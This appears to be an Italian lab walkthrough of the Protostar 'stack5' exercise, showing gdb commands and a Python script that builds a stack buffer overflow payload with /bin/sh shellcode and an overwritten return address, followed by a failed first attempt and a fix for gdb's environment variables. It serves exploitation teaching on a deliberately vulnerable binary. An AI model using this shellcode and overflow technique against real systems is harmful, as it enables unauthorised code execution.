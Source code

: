 Per iniettare il payload nella cella dell'indirizzo di ritorno bisogna ricostruire il layout dello stack per farlo eseguiamo **stack5** con _gdb_
```bash
> gdb -q /opt/protostar/bin/stack5
(gdb) > disas main # disassembliamo il main
# stampa il dump
(gdb) > b*0x080483d9 #inseriamo un breakpoint prima della leave
(gdb) > r < /tmp/payload #passiamo il payload
```
L'ampiezza dell'area di memoria è di 76 byte:
- 28 per lo shellcode
- 36 per il buffer
- 8 per il padding
- 4 cella prima dell'indirizzo di ritorno

Stampiamo l'indirizzo iniziale dello shellcode, esso è contenuto in $esp
```bash
(gdb) > p $esp 
$7= (void *) 0xbffffc90
(gdb) > x/a $esp
0xbffffc90: 0xbffffca0
#0xbffffca0 indirizzo iniziale di shellcode
```
0xbffffca0 va inserito nello script python nella variabile _ret_(indirizzo di ritorno)
#### 7. Modifichiamo lo script python
```python
#!/usr/bin/python

# Parametri da impostare
length = 76
ret = '\xa0\xfc\xff\xbf'
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
              "\x68\x68\x2f\x62\x69\x6e\x89" + \
            "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
            "\xcd\x80\x31\xc0\x40\xcd\x80";
padding = 'a' * (length - len(shellcode))
payload = shellcode + padding + ret
print payload
```
Salviamo l'output in un file
```bash
> python stack5_payload.py > /tmp/payload
```
## Primo attacco
Eseguiamo **stack5** con _gdb_
```bash
> gdb -q /opt/protostart/bin/stack5
(gdb) > r < /tmp/payload
#la shell viene eseguita ma termina immediatamente
```
L'attacco fallisce anche se **stack5** viene eseguito senza gdb
## Ipotesi
Il debugger ha aggiunto delle variabili d'ambiente, questa cosa non ha dato problemi nelle sfide precedenti perchè facevamo riferimento e un indirizzo specifico del programma e non ad un indirizzo assoluto dello stack.  
Per verificare l'ipotesi lanciamo `env` da terminale e ne analizziamo l'output se è uguale a `gdb show env` possiamo rigettare l'ipotesi. Notiamo che il debugger aggiunge due variabili esse sono _LINES_ e _COLUMNS_, cancelliamo queste due variabili in maniera tale che i due ambienti tornino di nuovo ugali, per farlo eseguiamo:
```bash
(gdb) > unset env LINES
(gdb) > unset env COLUMNS
#disassembliamo il main
(gdb) > disas main
```